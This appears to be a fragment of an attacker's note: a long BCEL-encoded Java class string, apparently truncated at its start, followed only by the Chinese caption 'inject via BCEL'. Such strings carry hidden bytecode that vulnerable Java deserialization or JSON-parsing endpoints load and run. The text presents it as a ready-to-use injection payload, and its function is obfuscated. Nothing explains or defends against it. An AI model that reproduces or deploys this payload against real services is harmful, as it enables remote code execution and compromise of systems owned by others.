3$7f$wv$ea$de$de$5d$O$cerIO$ac$c7$y$e9$e1$f8$a9$fe$c7b$8fu$f7$3a$c7$d1$deX$af$Z$ede$b7$nx$ba$c3l$f4$fc$j$89$k$ff$8a$5cX$3e$W$bdX$ba$p$97$fa$cf$c4$ce$e0$f9$f1$e5c$b8$5eF$ef$95$S$bac$fdg$afG$9f$b87$f5z$f4I$b6$bf$q$ef$c3$sf$d5$b9$d8$b9$ce$aa$ce$d01$M$99e$e7$afG$9f$c2$f3$jy$7f$7f4$W$a5$80Oww$bb$8c$f1$ab$fd$Xb$Xb$d1$ce$ca$e8$H$d0$f3$c17$e4B$ff$c5$d8$c5$e8$87$8ea$gg$5c$8a$5d$e4$ea$c7$afG$V$I$9d$Lw$Z$m$df$a5$e5$e3$j$aeJ$cb$t$aeG$9f1$8d$93$d7$a3$cf$9aF$f8z$f4$c3$a6$R$b9$k$bdf$g$e70$f6$i$5bd$f8r$ec2ia$df$d8Y$d0$89$9d$H$N$L$cb$f1$L$e3$X$b18$df22$5c$89$9d$8e$5e$87$ee$ef$db$fc$f9$93$j$Z$k$c7J$5eND_$c0$cc$X$fbc$f8$d7$99$7b$b2C$fa$KIsB$ec$S$85$5b$ba$z$f1$J$M$df$b8$z$d7xO$dc$96$ab$bc$a7n$cb$V$de3$b7$e5$i$ef$b9$db$S$e1$3d$ff$F$ATB$p$a1$a2$f4$99$fbM$89$9b$fb$b2$q$cd$dd$91$b4$b9W$qk$ee$dbb$cb1$D$ef$7f$96$M$ae$a7$q$y$3d$b8$3e$s$ef$H$c8$3f$q$a7A$e7$M$e6$9c$F$b8$cf$c9$90$9c$97$92DeY$$$88$x$X$a5$s$97$a4$F$l$fa$a4$5c$96$cfHL$5e$D$f4o$cb$93$f2$ba$3c$r_$D$857$e5i$f9$a6$7cP$be$r$cfX$c8$a3$d6Uy$c1$b2$e5$86U$90$b8uK$S$d6$a6$q$ad$DIY$9f$92$ac$f5M$c9Y$ff$zv$e8Y$c9$87F$84$S$f4$87$c6$e5$a5$d0$b4P$8a$97Cs$f2JhQ$u$c9$ab$a1$V$f9H$e8$TBi$3e$gre$m$U$I$r$g$M$adK$nT$TJ5$Uj$c8phGF$e9$ae$d6$a0$5c$95p$e8$pR$80$E$901$f4$8a$M$cb$I$i$b6$_t$F3$c6$e0$e0v$e8$8c$U$d1w$M$xC2$8e$be$e3R$b2$feC$s$d0wB$5c$eb$dfd$S$7d$t$a5f$fd$8bL$a1$_$y$9f$b4$be$n$d32$Dw$ff$8c$f5$V$99$c5$e8$vy$cd$fa$bc$dc$c4h$8f$bcn$7dN$e6$d0$f7$98$7c$cd$fa4t6$Cm$7e$d3j$cb$3cV$9c$96oY$l$97$FY$943$96e$N$cb$S$e6$9d$b5$aeZ$cf$ca$z$f4$9d$b3l$eb$M4$3c$s$e7$ad$82uLV$d0$8aB$5b$ff$$$l$93$8f$cb$F$e8$ec_$e5$db$e4$Tr$R$9a$fb$tYE$df$r$e8$efM$f9v$cc$7b$iZl$8b$D$w$97$a1$cbq$d8hL$ae$40$a3W$c5$c3$bc$Y$f4y$5c$7c$d1$b0$fc$9ci$Fh$ad$98V$Z$z$d7$b4$d6$d0Z7$ad$KZ$N$d3Z$87$d66$f0$7bJ$c2$ff$Z$w$86$a5$3a$g$96M$fcj$f8$d5$f1$db$c2o$fb8$U$da0$d1$b2$f9$bf$J$ec$82g$s$s$A$A
```

通过bcel打入







